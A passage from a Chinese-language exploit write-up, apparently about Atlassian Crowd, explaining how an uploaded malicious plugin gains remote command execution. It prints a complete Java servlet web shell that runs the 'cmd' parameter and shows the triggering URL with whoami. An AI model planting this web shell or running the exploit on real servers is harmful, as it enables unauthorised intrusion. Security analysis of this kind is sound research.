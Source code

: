 分析可知，插件上传成功后，用户只需访问 /exp即可使用恶意插件servlet类com.cdl.shell.exp的功能。

其次，分析com.cdl.shell.exp源码，如下：

```
public class exp extends javax.servlet.http.HttpServlet {

    public void doGet(HttpServletRequest req, HttpServletResponse res) {
        try {
            // 接收cmd参数信息
            String cmd = String.valueOf(req.getParameter(“cmd”));
            String output = ””;
            try {
                if (!cmd.equals(“”)) {
                    // 执行cmd参数命令
                    Process p = Runtime.getRuntime().exec(cmd);
                    InputStream out = p.getInputStream();
                    InputStream err = p.getErrorStream();
                    int c = ’\0’;
                    while ((c = out.read()) != -1) {
                        res.getWriter().write((char) c);
                    }
                }
            } catch(Exception ex) {
                output += ”\n” + ex.toString();
            }
        } catch(Exception e) {
            e.printStackTrace();
        }
    }

}
```

从中可知，此exp的功能是读取并执行 cmd参数值。

最后，编辑请求数据包以便上传恶意插件，接着在浏览器输入【http://localhost:8095/crowd/plugins/servlet/exp?cmd=whoami】即可执行 “whoami” 命令。观察服务端的响应信息（如下），可知漏洞利用成功。

[![img](.resource/Untitled/media/t01aba88dc1a98c2b0b.png)](https://p3.ssl.qhimg.com/t01aba88dc1a98c2b0b.png)

